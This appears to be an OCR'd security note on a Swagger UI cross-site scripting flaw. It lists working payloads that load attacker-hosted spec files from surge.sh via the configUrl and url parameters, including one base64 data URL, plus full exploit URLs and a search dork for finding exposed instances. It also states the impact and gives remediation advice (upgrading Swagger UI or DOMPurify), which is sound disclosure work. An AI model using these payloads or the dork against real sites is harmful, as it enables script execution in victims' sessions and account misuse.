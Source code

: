 
Swagger UI can be found at /classicapi/doc/

▪ Payloads:
• `?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==`
• `?configUrl=https://jumpy-floor.surge.sh/test.json`
• `?url=https://jumpy-floor.surge.sh/test.yaml`
• The payload might not work, so we move on to the next payload, and so on.

▪ Final payload examples:
- `https://example.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==`
- `https://example.com/classicapi/doc/?configUrl=https://jumpy-floor.surge.sh/test.json`
- `https://example.com/classicapi/doc/?url=https://jumpy-floor.surge.sh/test.yaml`

▪ Find Swagger UI using dorks:
`intext:"Swagger UI" intitle:"Swagger UI" site:yourtarget.com`
(the dork yields some false positives, but it's good enough)

▪ Impact:
- an attacker can execute arbitrary js code in the context of <vulnerable_url>
- it means he can do whatever authenticated user at <vulnerable_url> could do

▪ Remediation:
- q: you have found a vulnerable swagger ui version in your organization, now what?
- a: it is simple, just update to the latest version. check out npm-update for more info

- q: what if you can't upgrade the whole swagger ui package?
- a: you can upgrade only the dompurify package that is used by swagger ui

